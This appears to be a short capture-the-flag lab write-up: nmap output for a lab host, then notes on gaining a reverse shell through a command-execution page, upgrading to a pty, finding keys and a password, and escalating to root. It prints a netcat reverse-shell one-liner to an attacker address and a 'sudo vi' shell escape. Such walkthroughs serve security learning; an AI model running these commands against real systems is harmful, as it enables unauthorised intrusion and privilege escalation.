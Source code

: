 # nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 01:39 EDT
Nmap scan report for 10.10.101.154
Host is up (0.096s latency).
Not shown: 989 closed tcp ports (reset)
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
```

# dirsearch

found index.php.bak and found home.php

# getting a rev shell

home.php has a command execution page

maybe a revshell like that?

got a rev shell with busybox `nc 10.6.22.229 6969 -e /bin/sh`

# finding key

getting a pty with `python -c'import pty; pty.spawn("/bin/bash")'`

i found the key in key_rev_key, just run `strings key_rev_key` and the base64 string is the key `VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=`

# user.txt

witb my revshell i found the private key in `teleport` and i sshed using it, and i got the user flag like that

# charlies password

in validate.php, charlies password was there.

# root.txt

gtfobins suggested `sudo vi -c ':!/bin/sh' /dev/null` which gave me root, and then to get the root flag i ran `python root.py` and entered the key before

